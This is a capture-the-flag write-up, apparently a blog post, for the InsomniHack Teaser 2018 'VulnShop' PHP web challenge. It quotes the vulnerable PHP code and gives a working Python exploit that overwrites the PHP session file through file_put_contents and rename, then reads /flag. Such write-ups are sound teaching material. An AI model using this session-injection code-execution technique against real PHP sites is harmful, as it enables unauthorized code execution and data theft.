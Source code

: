```yaml
---
layout: post
title:  "Remote Code Execution via Session - InsomniHack Teaser 2018"
subtitle: 'InsomniHack 2018 Vulnshop Web Challenge'
date:   2018-01-21 00:06:31
tags:
- Web, CTF, PHP-RCE
---
```



This year's Insomni'Hack had pretty much decent challenges even though it took some time before my team could solve. The first challenge being, `VulnShop`. A pretty straightforward description with a few functionalities in the page along with the source code made it neat and clean.

<figure class="foto-legenda">
	<img src="../assets/writeup2/firstpage" alt="">
</figure>


Going through the source code, two particular function caught my attention: `captcha` and `captcha-verify`.

{% highlight php %}
case 'contactus':
  echo "<p>You can't contact us for the moment, but it will be available later.</p>";
  $\_SESSION['challenge'] = rand(100000,999999);
  break;
case 'captcha':
  if(isset($\_SESSION['challenge'])) echo $\_SESSION['challenge'];
  // Will make an image later
    touch($\_SESSION['challenge']);
    break;
case 'captcha-verify':
// verification functions take a file for later, when we'll provide more way of verification
  function verifyFromString($file, $response) {
  if($\_SESSION['challenge'] === $response) return true;
  else return false;
 }  
{% endhighlight %}

The `$_SESSION['challenge']` does something very interesting which is basically creating a file after calling the `contactus` page
which basically stores a random number between the specified value and in return requesting for `captcha` creates a file with the same generated number.

<figure class="foto-legenda">
	<img src="../assets/writeup2/filecreation" alt="">
</figure>


Let that be pretty much and let's move ahead in the source code. The very next piece of code,

{% highlight php %}
if(isset($\_REQUEST['answer']) && isset($\_REQUEST['method']) && function_exists($\_REQUEST['method'])){
    $\_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
}
{% endhighlight %}

we can see how the request is made, mainly two parameters as `GET` request.

The next part is the main aim of getting the flag. So according to the description and what we understood from the source code, what we can do is, we will make it into 3 steps:
1) Create a file by calling `contactus` and `captcha`
2) Write whatever we want to the file, say `123456`
3) Copy the contents of that particular file to the session variable
4) Execute it

Also there were a few function which were disabled that could be seen in `phpinfo`:

<figure class="foto-legenda">
	<img src="../assets/writeup2/disabled_func" alt="">
</figure>


The script below does all in one go:

{% highlight python %}
#Author gkrishna
#Member of Teambi0s
#insomnihack_teaser 2018
import sys
import requests

url = "http://vulnshop.teaser.insomnihack.ch/"
s = requests.Session()

s.get(url+"?page=contactus")
s.get(url+"?page=captcha")
r = s.get(url+'?page=captcha-verify&method=file_put_contents&answer=challenge|s:35:"print_r(file_get_contents(\'/flag\'))";')
s.cookies.get_dict()['PHPSESSID']
val = "Value of Cookie = " + s.cookies.get_dict()['PHPSESSID']

s.get(url+"?page=captcha-verify&method=rename&answer=/var/lib/php/sessions/sess_"+s.cookies.get_dict()['PHPSESSID'])
r = s.get(url+"?page=captcha-verify&method=verifyFromMath&answer=1")

print r.text
{% endhighlight %}

Towards the end, we call the function `verifyFromMath` which returns the desired string.

Catch me in <a href="https://twitter.com/gkgkrishna33">Twitter</a>.
